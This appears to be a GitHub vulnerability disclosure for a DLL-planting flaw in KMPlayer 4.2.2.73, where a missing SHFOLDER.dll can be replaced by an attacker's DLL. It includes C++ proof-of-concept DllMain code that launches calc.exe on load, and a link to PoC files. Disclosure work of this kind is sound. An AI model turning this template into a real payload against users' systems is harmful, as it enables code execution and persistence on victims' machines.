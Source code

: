 # KMPlayer_Poc

## The name of an affected Product
KMPlayer x32

## Affected Version
KMPlayer_4.2.2.73(Latest)

## Product Address: 
https://www.kmplayer.com/pc

## Description
SHFOLDER.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type : 
Current Working Directory (CWD) DLL planting 

## Impact
An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

## POC files address
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
